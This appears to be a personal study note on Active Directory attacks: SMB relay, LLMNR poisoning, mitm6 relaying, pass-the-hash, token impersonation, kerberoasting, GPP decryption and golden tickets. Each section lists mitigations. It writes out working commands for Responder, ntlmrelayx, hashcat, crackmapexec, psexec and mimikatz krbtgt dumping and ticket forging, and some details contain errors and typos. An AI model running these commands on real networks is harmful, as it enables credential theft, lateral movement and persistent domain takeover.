# Active Directory attacks
## AD_overvire

>Active Directory (AD) is a Microsoft product that consists of several services that run on Windows Server to manage permissions and access to networked resources. Active Directory stores data as objects. An object is a single element, such as a user, group, application or device, such as a printer.

[logo]: img/active.png


* ayad.tshoot.com called `FQDN` fully qualified domain name

* hostname      vs      netbios name

```console
both of them is a way to identifi machines inside my network
have dots             dots not allowd
modern                old
tshoot.com            TSHOOT
```

* important files

```console

C:\windows\NTDS    → users and groups database 
                   → ntds.dit is the file contains users and groups
C:\windows\NTDS    → logs
C:\windows\SYSVOL  → groups policy

```

* local admin or doamin admin is only who can put out computer from domain
* password can't be changed before passing 24-hour and maximum duration is 42-day
* user can't use the same pass before using 24 different pass
* some users leave their passwords in the description

* name resolution methods
[logo]: img/name.png


* remote managent methods
[logo]: img/remote.png


## smbrelay attack
### idea
  smb signing enable but not require
  
  whch allow us to grab the hash
### tools
responder -I eth0 -rwdv `disable smb and http from /etc/respnder/Responder.conf`

python /usr/share/doc/python-impacket/examples/ntlmrelayx.py -tf target.txt -smb2support  -i
### reproduce
[logo]: img/responder.png

### payoff
we get rce as local administartor
we get local user `NTLMv2` hashes
### metigation
Enable smb siging on all devices
Disable NTLM auth and move to kerberos
Account tiering
local admin restriction

---
## LLMNR poisoning

### idea
what happen is that when we search for un-exist host in the network dns won't find it so requesting_machine will move to use  LLNRM which will make a multicast traffic to all devices in the network 
what we do is that yes we are that address you are looking for and authunticate to me
with  responder we got the  NTLMv2 hash
we crack it with hashcat
### tools
responder -I eth0 -rwdv
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
### reproduce
so what we do we first fire up responder in our local machine
on a target machine we request not_existing hostname or  ip such \\not_exist
### payoff
we get a user hash 
[logo]: img/hash.png

### metigation
Disable LLMNR 
Disable NBT-NS
Require strong password

---
## IPv6 attack
### idea
all windows since windows vista have ipv6 by default and it's prefered over ipv4

attacker abuse IPV6 default configs and serve as IPV6 dns server

we will abuse windows proxy auto discovery WPAD to relay creds and authunicate to other services in the network
our goal is to force  victim is to authunticate us 

### WAPD
windows proxy auto detection feature it's legitimate use is to detect network proxy used fro connecting to the internet

the address of the server providing the file wapd.dat would be resolved by dns and if no enrty was found it will resolved via LLMNR

attacker can reply to these requests preteneded ha has the file and ask for auth to access the file which is automated by windows

without any user interaction and that provide attacker the ntlm hash of the logged user

that was before 2016 patch that do the folowing:

-location of wapd file only requested via DNS

-auth doesnt occure automatically any more

first bypass wapd file is done by mitm6 tool as it set attacker machine as IPv6 DNS server

second bypass we can modify wapd file so when victm use it to get internet it will reply with HTTP 407 status code for authunticaton

-Attck phase 1

first mitm6 will listen on the attacker machine for any IPV6 requests via DHCPV6 assinging all victims IPV6 ip and set our machine as IPV6 DNS server

optionally mitm6 will send Router Advertisment (RA) masgs to alert all client that there is IPV6 network and u should request IPv6 addresss with DHCPv6

mitm -d (domain_name)

-attack phase 2

in victims machines we notice that our machine is set as DNS server and due to window preference IPv6 DNS  will be prefered over IPv4 DNS

IPv6 DNS will be used to query both IPv4 and IPv6 recoreds

[logo]: img/dns.png


### tools
mintm6 -d (domain_name)

/usr/share/doc/python-impacket/examples/ntlmrelayx.py -6  -t ldaps://192.168.1.100 -wh fake.tshoot -l loot
### reproduce
fisrt we start mintm6 to server as IPv6 DNS server to spoof requests

secondly we fire up ntlmrelayx.py with -wh option to serve wapd file and optionally we can specify where it resides but since we are

the dns server any non-existing hostname we di we use -6 to listen on both ipv4 ipv6 
### payoff
hashes dumped

create a domian user
[logo]: img/user.png

### metigation
disable ipv6

disable ntlm and move to kerberos

---
## pass the hash
### idea
once you grabbed some hashes you can spread them acreoss network to see what computers you can login with these creds
### tools
crackmapexec.py 10.0.0.0/8 -u user_name -H `NTLMv1_hash` --local 

psexec user@computer_ip -H `NTLMv1_hash`

### reproduce
one u get a pwned sign so that user have login access to that computer
[logo]: img/hashed.png

after that we can use tools like psexec to get an interactive shell
### payoff
after that we can use tools like psexec to get an interactive shell
[logo]: img/ps.png

### metigation
it's hard to completely prevent it but we can make it more difficult for an attacker

Limit account reuse
Utilizing strong passwords
use PAM privilege access manager

---
## Token Impersonation
### idea
Token are temporary keys that allow you access system/network without supplying any  creds

it's a cookies for windows

### tools
metasploit framework with a meterpreter session
### reproduce
once we get a meterpreter  session we can launch our attack
[logo]: img/token.png


### payoff
impersonate local admin users
### metigation
limit user/group token creation permissions
acount tiering
local admin restriction

---
## kerberoasting
### idea
kerberos is an authuntication protocl in windows and here is a paragraph of how it's work
[logo]: img/kerberos.png


what we need to understand is that kerberos is relying on tickets

client send a request encrypted with his NTLM hash `TGT` to what is called  `KDC` consider it your DC 

after that client request a `TGS`  and server reply  with one but what interesting is that it's encrypted with server account hash
### tools
GetUserSPNs.py -request -dc-ip 192.168.1.100 domain/user 'user we have his creds'

hashcat -m 13100 hash_file /usr/share/wordlists/rockypu.txt
### reproduce
[logo]: img/tgs.png


once we get the hash we move on cracking it with hashcat
### metigation
use strong passwords
apply least privileges

---
## GPP attack
### idea
Group Pilicy Preference allowsa admins to create policies with embeded creds

creds are ebcrypted and called cPassword

### tools
gpp-decrypt cPassword
### reproduce
[logo]: img/gpp.png

### payoff
get a valid vreds and use them on more beneficial scenarios
### metigation
update your system

---
## Golden Ticket
### idea
if we have a access to active directory domain controller with a creds of one of administrative group creds

we can create a ticket/certificate  for ourselves for persistent login 
> actually it remains 10 years
once we are in we abuse krbtgt user which a user reponsible for ticket creation and creat oursleves one

### tools
mimicatz
>privilege::debug

>lsadump::lsa /inject /user:krbtgt

>kerberos::golden /user:administrator /domain:tshoot.com /sid:  S-1-5-32-1045337234-12924708993-5683276719-19000 /krbtgt:d125e4f69c851529045ec95ca80fa37e /id:500 /ptt

### reproduce
[logo]: img/last.png

### payoff
persistent login for 10 yesrs 
### metigation
Enforce a least privilege model

Install endpoint protection to block attackers from loading modules like mimikatz


